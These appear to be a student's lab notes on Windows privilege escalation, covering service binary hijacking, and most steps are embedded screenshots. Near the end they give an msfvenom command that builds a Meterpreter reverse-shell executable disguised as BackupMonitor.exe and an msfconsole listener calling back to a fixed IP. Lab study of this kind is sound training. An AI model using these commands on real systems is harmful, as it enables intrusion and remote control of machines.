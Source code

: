 To see Local Group members of the same group
Get-LocalGroupMember -Group "Remote Desktop Users"

### 16.1.3 Hidden in Plain View Q3

![[Pasted image 20231023212122.png]]
![[Pasted image 20231023212422.png]]

![[Pasted image 20231023212448.png]]
![[Pasted image 20231023212513.png]]

### 16.1.4 Question 2
![[Pasted image 20231024180530.png]]
open up a server

![[Pasted image 20231024180546.png]]
after nc into the machine, download the seatbelt.exe file
![[Pasted image 20231024180626.png]]
![[Pasted image 20231024180823.png]]

### 16.2 Binary Jacking
![[Pasted image 20231024185034.png]]
![[Pasted image 20231024185351.png]]
![[Pasted image 20231024185407.png]]

log in as dave2 and open a cmd as an Administrator

### 16.2.1 Question 2
![[Pasted image 20231024193756.png]]
once logged into system,

**DON'T FORGET TO SET UP THE HTTP SERVER TO LISTEN TO**
get the the PowerUp.ps1 powershell into the system to upgrade the powershell
![[Pasted image 20231025205945.png]]
![[Pasted image 20231025205957.png]]
![[Pasted image 20231025210216.png]]we stop the BackupMonitor, move to the appropiate folder location and rename the file to old 

create the payload and set up the listener
![[Pasted image 20231025210211.png]]
Next, we stop the BackupMonitor exe file, rename it to something else, and then 

Next, we are going to cd to the backupmonitor, retrieve the payload from our kali and start BackupMonitor again
![[Pasted image 20231025210216.png]]
![[Pasted image 20231025210505.png]]
once you catch the payload, type shell and get the flag

MAJOR CMDs in this module
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.179 LPORT=4444 -f EXITFUNC=thread exe > BackupMonitor.exe

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set EXITFUNC=thread;set LHOST 192.168.45.179;set LPORT 4444;run;"

I dropped another shell to make it constant
![[Pasted image 20231025214525.png]]

### 16.2.2
![[Pasted image 20231027195151.png]]

use the credentials you just created from the lab


